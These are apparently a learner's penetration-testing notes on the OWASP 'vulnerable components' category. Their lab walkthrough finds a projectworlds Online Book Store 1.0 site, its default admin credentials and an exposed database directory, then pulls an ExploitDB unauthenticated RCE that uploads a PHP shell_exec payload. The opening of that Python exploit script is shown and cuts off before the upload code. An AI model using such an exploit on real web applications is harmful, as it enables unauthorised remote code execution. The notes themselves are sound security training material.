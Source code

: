         It is also worth noting that it may not always be this easy, sometimes you will just be given a version number like in this case, but other times you may need to dig through the HTML source, or even take a lucky guess on an exploit script, but realistically if it is a known vulnerability, there's probably a way to discover what version the application is running.
        
        That's really it, the great thing about this piece of the OWASP 10, is that the work is pretty much already done for us, we just need to do some basic research, and as a penetration tester, you're already doing that quite a bit :).
        
    - Lab
        
        The following is a vulnerable application, all information you need to exploit it can be found online.
        
        ![[/Untitled 26 3.png|Untitled 26 3.png]]
        
        ---
        
        So the index of this site already gives me some information. This is a template from projectworlds and has a Admin Panel
        
        ![[/Untitled 27 3.png|Untitled 27 3.png]]
        
        ![[/Untitled 28 3.png|Untitled 28 3.png]]
        
        And looking through the project page we have default information like DB directory and admin credentials
        
        ![[/Untitled 29 3.png|Untitled 29 3.png]]
        
        Searching for /database i founded
        
        ![[/Untitled 30 3.png|Untitled 30 3.png]]
        
        So looking in exploitdb it looks like there is an exploit for ‘**Online Book Store 1.0’** and theres place for Unauthenticated RCE
        
        ![[/Untitled 31 3.png|Untitled 31 3.png]]
        
        The exploit its fairly simple.
        
        It basicaly tries uploading a file with the payload being a shell_exec in a php snippet
        
        ```Python
        import argparse
        import random
        import requests
        import string
        import sys
        
        parser = argparse.ArgumentParser()
        parser.add_argument('url', action='store', help='The URL of the target.')
        args = parser.parse_args()
        
        url = args.url.rstrip('/')
        random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))
        